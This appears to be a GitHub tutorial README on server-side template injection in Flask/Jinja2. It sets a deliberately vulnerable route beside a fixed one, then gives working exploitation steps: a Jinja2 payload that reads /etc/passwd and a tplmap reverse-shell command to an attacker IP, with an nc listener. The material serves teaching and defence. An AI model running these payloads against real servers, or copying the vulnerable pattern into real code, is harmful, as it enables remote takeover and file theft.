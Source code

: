 # SSTI-Basics
Basic overview of SSTI to RCE

Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.


Vulnerable Code (Flask)

```
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')    
    output = Jinja2.from_string('Hello ' + name + '!').render()  // The name variable is concatenating to the template string

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)
    
// URL: http://127.0.0.1:8080/page?name=
// Replace IP & Port for your environment

```
Secure Code (Flask)

```

from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')   
    output = Jinja2.from_string('Hello {{name}}!').render(name = name)  // The name variable gets passed to the template context

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)
    
// URL: http://127.0.0.1:8080/page?name=   
// Replace IP & Port for your environment    
```
SSTI Exploitation

SSTI Vulnerability Test

```
curl -g http://127.0.0.1:8080/page?name={{5*5}}
Output: Hello 25

```
SSTI /etc/passwd Test

```
curl -g "http://127.0.0.1:8080/page?name={{+''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()+}}"

```

SSTI Reverse Shell

Expliot for Reverse Shell
```
python tplmap.py -u http://127.0.0.1:8080/page?name= --reverse-shell <attacker_ip> <attacker_port>
Example: python tplmap.py -u http://127.0.0.1:8080/page?name= --reverse-shell 10.10.10.10 1337
```
Capture Reverse Shell

```
nc -lvnp 1337

```
